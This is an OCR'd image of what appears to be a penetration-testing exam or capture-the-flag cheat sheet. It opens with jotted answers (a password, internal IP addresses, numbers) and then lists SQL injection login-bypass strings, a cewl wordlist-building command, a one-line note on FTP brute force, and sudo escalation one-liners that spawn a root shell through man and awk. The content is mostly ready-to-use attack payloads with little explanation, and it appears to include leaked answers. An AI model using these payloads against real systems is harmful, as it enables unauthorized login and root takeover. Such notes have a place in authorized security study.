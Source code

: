 ```
H.M-১ 
Secret123


Q-20 
ip ADDRESS 172.16.0.40

Q-4 
pass- test
4700056

Q-5 450989878899 

Q-12 F/N 201010988818

Q19 Android
 IP 172.16.0.38
   1876890
```

### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
   
### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
  $ sudo awk 'BEGIN {system("/bin/bash")}'
```
